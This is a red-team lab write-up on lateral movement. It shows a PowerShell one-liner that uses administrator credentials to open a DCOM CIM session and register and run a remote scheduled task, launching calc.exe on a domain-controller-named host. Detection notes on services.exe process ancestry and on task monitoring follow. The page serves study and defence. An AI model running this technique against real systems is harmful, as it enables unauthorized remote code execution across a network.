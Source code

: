 # WMI + NewScheduledTaskAction Lateral Movement

## Execution

On the victim system, let's run a simple loop to see when a new scheduled task gets added:

```csharp
$a=$null; while($a -eq $null) { $a=Get-ScheduledTask | Where-Object {$_.TaskName -eq "lateral"}; $a }
```

Now from the compromised victim system, let's execute code laterally:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
$connection = New-Cimsession -ComputerName "dc-mantvydas" -SessionOption (New-CimSessionOption -Protocol "DCOM") -Credential ((new-object -typename System.Management.Automation.PSCredential -ArgumentList @("administrator", (ConvertTo-SecureString -String "123456" -asplaintext -force)))) -ErrorAction Stop; register-scheduledTask -action (New-ScheduledTaskAction -execute "calc.exe" -cimSession $connection -WorkingDirectory "c:\windows\system32") -cimSession $connection -taskname "lateral"; start-scheduledtask -CimSession $connection -TaskName "lateral"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Graphic showing both of the above commands and also the process ancestry on the target system:

![](../.gitbook/assets/peek-2018-10-19-22-24.gif)

## Observations

As usual, services.exe spawning unusual binaries should raise a wary defender's suspicion. You may want to also consider monitoring unusual scheduled tasks that get created on your systems if you want to detect this type of lateral movement:

![](../.gitbook/assets/screenshot-from-2018-10-19-22-35-13.png)

![](../.gitbook/assets/screenshot-from-2018-10-19-22-59-12.png)

{% hint style="info" %}
Sysmon config master version 64 from [https://github.com/SwiftOnSecurity/sysmon-config](https://github.com/SwiftOnSecurity/sysmon-config) does not log the calc.exe Process Creation event being spawned by the services.exe
{% endhint %}

